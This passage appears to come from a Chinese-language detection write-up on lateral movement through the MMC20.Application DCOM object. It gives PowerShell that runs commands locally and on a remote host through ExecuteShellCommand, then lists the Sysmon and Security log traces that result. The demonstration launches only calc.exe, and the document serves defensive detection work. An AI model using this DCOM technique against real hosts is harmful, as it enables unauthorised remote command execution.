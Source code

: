 2. **本地COM执行命令**  
   使用`MMC20.Application`的`ExecuteShellCommand`方法启动计算器：
   ```powershell
   $com = [Activator]::CreateInstance([Type]::GetTypeFromProgID("MMC20.Application", "127.0.0.1"))
   $com.Document.ActiveView.ExecuteShellCommand("cmd.exe", $null, "/c calc.exe", "Minimized")
   ```

3. **远程DCOM执行命令（可选）**  
   使用DCOM在远程主机（IP：192.168.1.100）上执行命令：
   ```powershell
   $com = [Activator]::CreateInstance([Type]::GetTypeFromProgID("MMC20.Application", "192.168.1.100"))
   $com.Document.ActiveView.ExecuteShellCommand("cmd.exe", $null, "/c calc.exe", "Minimized")
   ```
   - 确保防火墙允许DCOM通信（端口135、动态端口），且用户具有远程DCOM权限。

**注意**：此复现仅用于学习和测试目的，需在合法授权的测试环境中进行，切勿用于非法活动。

## 测试留痕

- **Sysmon日志（事件ID 1）**：
  ```plaintext
  EventID: 1
  Image: C:\Windows\System32\calc.exe
  CommandLine: calc.exe
  ParentImage: C:\Windows\System32\mmc.exe
  User: JACKMA\Administrator
  IntegrityLevel: High
  ```
- **Windows安全日志（事件ID 4688）**：
  ```plaintext
  EventID: 4688
  New Process ID: 0x1234
  New Process Name: C:\Windows\System32\calc.exe
  Process Command Line: calc.exe
  Creator Process Name: C:\Windows\System32\mmc.exe
  Token Elevation Type: TokenElevationTypeDefault (1)
  ```
- **Sysmon日志（事件ID 3，远程DCOM）**：
  ```plaintext
  EventID: 3
  Image: C:\Windows\System32\svchost.exe
  DestinationIp: 192.168.1.100
  DestinationPort: 135
  Protocol: tcp
  ```
- **Sysmon日志（事件ID 7）**：
  ```plaintext
  EventID: 7
  Image: C:\Windows\System32\mmc.exe
  ImageLoaded: C:\Windows\System32\mmc20.dll
  ```

## 检测规则/思路
